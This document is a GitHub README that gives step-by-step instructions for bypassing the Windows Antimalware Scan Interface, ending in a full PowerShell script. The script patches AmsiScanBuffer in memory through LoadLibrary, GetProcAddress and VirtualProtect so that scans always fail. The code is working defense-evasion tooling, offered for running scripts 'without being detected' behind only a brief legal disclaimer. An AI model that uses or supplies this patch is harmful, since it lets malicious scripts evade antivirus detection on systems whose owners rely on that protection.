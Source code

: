 # Amsi-Patch-Updated-2025  
### **Bypass AMSI (Antimalware Scan Interface) in PowerShell**  

This guide shows how to dynamically patch the `AmsiScanBuffer` function in PowerShell to bypass AMSI, enabling the execution of scripts without being detected. This technique is useful for penetration testing, security research, and other ethical hacking practices.  

> **Disclaimer:** Always use these techniques in controlled, legal environments. Misuse may lead to legal and ethical consequences.

---

## **Steps to Patch AMSI in PowerShell**

### 1. **Reverse Engineer `amsi.dll` using IDA Pro**  
If you have a free version of IDA Pro (version 9.0 or below), follow these steps:  

- **Open `amsi.dll` in IDA Pro.**  
  Load the `amsi.dll` file and allow IDA to analyze the binary.
  
- **Navigate to Exports Tab.**  
  Press `Shift+F12` to open the **Exports** tab and locate the `AmsiScanBuffer` function.  
  Double-click `AmsiScanBuffer` to jump to its code.

- **Identify the Critical Code.**  
  Look for the key logic in `AmsiScanBuffer`. This is the part that handles the scanning process.  
  You should see something like this in the disassembly (example below):  

  ![Critical Code Example](https://github.com/user-attachments/assets/0ca7316e-0264-46a2-8e80-d9e2c0d24179)

- **Trace the Function Prologue.**  
  Follow the call chain of `AmsiScanBuffer` to understand how it interacts with other functions. The red arrow in the IDA disassembly highlights where the critical code lies.

- **Detect Control Flow Guard (CFG):**  
  Look for `_guard_dispatch_icall`. This is used for Control Flow Guard and helps prevent malicious modifications. You'll need to patch around this.

### 2. **Locate the Patch Area**  
- **Find where `AmsiScanBuffer` returns a result.**  
  This is the point where the AMSI scan function provides its result to the caller.  
- **Modify the return value.**  
  Rather than allowing a normal scan, modify it to always return an error code like `0x80070057` (invalid parameter), which will prevent AMSI from scanning.

### 3. **Create a PowerShell Patch**  

Here is how to write the PowerShell script that patches `AmsiScanBuffer`:  

- **Load the `amsi.dll` library.**  
  Use `LoadLibrary` to get a handle to `amsi.dll`.  
- **Locate the `AmsiScanBuffer` function.**  
  Use `GetProcAddress` to find the address of `AmsiScanBuffer`.
- **Change memory protection.**  
  Use `VirtualProtect` to modify the memory protection of the `AmsiScanBuffer` function, ensuring it’s writable.
- **Overwrite the function.**  
  Patch the function to return the error code `0x80070057` (invalid parameter) instead of performing the normal scan.

### 4. **Run the PowerShell Script to Bypass AMSI**  

Once the script is ready:  

- **Save and execute the PowerShell script.**  
  Running the script will patch `AmsiScanBuffer`, bypassing AMSI and allowing you to execute PowerShell scripts without being detected.
  
- **Result:**  
  AMSI will fail to scan scripts, enabling execution without triggering an alert.

---

## **PowerShell Script Example**  

Here's an example of how you can patch `AmsiScanBuffer` using PowerShell:  

```powershell
$Kernel32 = Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpLibFileName);
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);
"@ -Name "Kernel32" -Namespace "Win32" -PassThru

$AmsiDll = $Kernel32::LoadLibrary("amsi.dll")
$AmsiScanBuffer = $Kernel32::GetProcAddress($AmsiDll, "AmsiScanBuffer")

# Ensure we successfully located AmsiScanBuffer
if ($AmsiScanBuffer -eq [IntPtr]::Zero) {
    Write-Host "Failed to find AmsiScanBuffer!"
    exit
}

# Patch: MOV EAX, 0x57 000780, RET
$patch = [Byte[]](0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)

[UInt32]$oldProtect = 0
$Kernel32::VirtualProtect($AmsiScanBuffer, [UInt32]6, 0x40, [Ref]$oldProtect)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $AmsiScanBuffer, $patch.Length)

Write-Host "AMSI Patched Successfully!"
